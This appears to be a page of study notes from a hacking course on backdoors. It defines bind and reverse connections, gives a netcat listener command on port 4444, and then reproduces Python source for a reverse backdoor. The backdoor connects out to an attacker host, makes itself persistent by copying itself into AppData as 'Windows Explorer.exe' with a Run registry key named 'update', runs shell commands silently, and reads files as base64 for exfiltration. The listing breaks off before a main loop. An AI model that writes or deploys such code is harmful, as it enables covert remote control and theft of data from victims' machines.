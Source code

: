 ### 15 - Backdoor

- a program that gives full control of a system when executed on that system 
- **Bind/Direct connection** - victim machine listens for requests on a specific port
- **Reverse connection** - backdoor program sends request to attacker machine which is listening on a specific port 
- `nc -vv -l -p 4444`: create a netcat listener on port 4444
- `more file.txt`: read a file in windows
- **Serialization** - client converts object to a stream of well-defined bytes and sends it to the server, which converts the stream of bytes back into the object.

#### Code

```
#!/usr/bin/env python

# reverse_backdoor.py

import sys
import socket
import subprocess
import json
import os
import base64
import shutil

class Backdoor:
	def __init__(self, ip, port):
		self.persistence()
		self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		self.connection.connect((ip, port))
		
	def persistence(self):
		file_location = os.environ["appdata"] + "\\Windows Explorer.exe"
		if not os.path.exists(file_location):
			shutil.copyfile(sys.executable, file_location)
			subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d "' + file_location + '"', shell=True)
		
	def send_json(self, data):
		json_data = json.dumps(data)
		self.connection.send(json_data.encode())
		
	def receive_json(self):
		while True:
			json_data = b""
			try:
				json_data = json_data + self.connection.recv(1024)
				return json.loads(json_data)
			except ValueError:
				continue

	def execute_system_command(self, command):
		DEVNULL = open(os.devnull, 'wb')
		return subprocess.check_output(command, shell=True, stderr=DEVNULL, stdin=DEVNULL)
		
	def change_working_directory(self, path):
		os.chdir(path)
		return "Working Directory changed to " + path
		
	def read_file(self, path):
		with open(path, "rb") as file:
			return base64.b64encode(file.read())
			
```